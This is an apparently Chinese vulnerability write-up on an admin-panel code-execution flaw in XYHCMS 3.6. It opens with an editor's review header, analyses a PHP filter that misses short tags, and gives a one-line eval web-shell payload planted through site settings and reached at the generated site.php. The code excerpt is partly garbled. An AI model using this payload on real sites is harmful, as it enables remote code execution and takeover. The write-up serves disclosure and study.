

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：backendsiteconfigpermission; short_open_tag enabled for&lt;?eval;site.phpwritable/executable

- **适用与权限边界（1）**：payload用&lt;?短标签而源码只禁&lt;?php/script，关键short_open_tag前提未写。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：PHP片段混入长横线且缺函数闭合，必须标摘录/恢复源码。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：payload裸HTML列表会被渲染吞掉，应代码围栏；图片借615目录。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（4）**：配置落点/POST触发具体，较616完整；无原始来源/修复。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XYHCMS 3.6 后台代码执行漏洞（二）

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.6

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/SystemController.class.php`

    public function site() {
            if (IS_POST) {
                $data = I('config', array(), 'trim');
                //<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>
                $preg_param = '/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>/is';
                foreach ($data as $key => $val) {
                    if (stripos($val, '<?php') !== false) {
                        $data[$key] = preg_replace('/<\?php(.+?)\?>/i', '', $val);
                    }
    ————————————————————————————————————————————————————————————————————————————
                    if (stripos($val, '<script') !== false && stripos($val, 'php') !== false) {
                        $data[$key] = preg_replace('/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>/i', '', $val);
                    }
                    if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                        $this->error('禁止输入php代码');
                    }
                }
                ————————————————————————————————————————————————————————————————————————————

### 漏洞复现

1.  进入后台

2.  系统设置-\>网站设置-\>会员配置-\>禁止使用的名称    /media/rId26.png){width="5.833333333333333in"
    height="2.553546587926509in"}

-   <?eval($_POST['cmd'])?>

3.  访问漏洞文件,蚁剑连接

-   `http://localhost/App/Runtime/Data/config/site.php`

    POST数据：`cmd=phpinfo();`
